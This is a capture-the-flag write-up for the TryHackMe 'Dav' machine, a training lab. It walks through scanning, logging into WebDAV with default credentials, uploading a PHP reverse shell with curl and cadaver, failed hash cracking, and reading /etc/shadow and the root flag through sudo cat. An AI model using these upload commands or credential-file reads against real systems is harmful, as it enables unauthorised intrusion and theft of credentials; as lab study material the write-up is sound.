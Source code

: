 ```bash
# PLATFORM          . THM
# CTF NAME          . Dav
# DESCRIPTION       . boot2root machine for FIT and bsides guatemala CTF
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/bsidesgtdav
```

```bash
sudo nmap -sSVC -T5 -p- 10.10.250.114 -oN Dav
```

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

```
ffuf -u http://10.10.250.114/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100
```

```
webdav                  [Status: 401, Size: 460, Words: 42, Lines: 15]
```

- The page is asking for credentials ; I've tried using Hydra for a while with Seclist's usernames.txt and rockyou.txt but I had no luck.

- In the meanwhile I had searched about `webdav` since I had no idea what it was. According to some forums, `wampp:xampp` or `jigsaw:jigsaw` might be valid default credentials.

- I was lucky with the first pair and I found `passwd.dav` file.

```
wampp:$apr1${REDACTED}
```

- During my initial documentation, I found out that webdav can allow us to upload files to the webserver, so I wanted to try this first, as I don't have a clue about what to do with the credentials just yet.

- The manual way of uploading a reverse shell is using `curl` as follows

```
curl --user "user:password" -T 'shell.php' 'http://IP/webdav/'
```

- In case there would've been any filtering going on, we could've uploaded the shell as a `.txt` and rename it to `.php` with the following syntax

```
curl --user "user:password" -X MOVE --header 'Destination:http://IP/shell.php' 'http://IP/shell.txt'
```

- The same can be achieved using `cadaver` tool.

```
Authentication required for webdav on server `10.10.250.114':
Username: wampp
Password: 
dav:/webdav/> put shell.php shell.php
Uploading shell.php to `/webdav/shell.php':
Progress: [=============================>] 100.0% of 3461 bytes succeeded.
```

- The user flag is located in `/home/merlin/user.txt`.

- The user `wampp` exists on the system and the hash from the file we found earlier, according to hashcat's documenation, encrypted with `Apache $apr1$ MD5, md5apr1, MD5 (APR) 2`. 

- However, using both `hashcat` and `john` against this hash with `rockyou.txt` exausted the dictionary so I assumed this is not the intended way.

- I then started to look for privilege escalation paths from `www-data` and I've noticed that we are able to run `cat` as sudo. 

- I tried copying the user's passwords from `/etc/shadow` and `/etc/passwd` and unshadow them and then crack using john, but, again, it was taking too long and my laptop became an airplane, so there was no point for me trying harder, as this probably was not an intended path.

- I guess I must satisfy myself just with a `sudo cat /root/root.txt` to get the last flag.

___

**NOTE**:

- I spent some more time on the system after getting both flags and I've found the config for webdav

```
 cat /etc/apache2/sites-enabled/webdav.conf
```

```
AuthUserFile /var/www/html/webdav/passwd.dav
```

- Which is ... exactly. `passwd.dav`. The same file we found on the webserver after logging in.

- But this is not the same password as the one in `/etc/shadow` (at least judging by the hash).

- Nothing interesting, but at least I figured out that that hash is just the encryption of `xampp`.
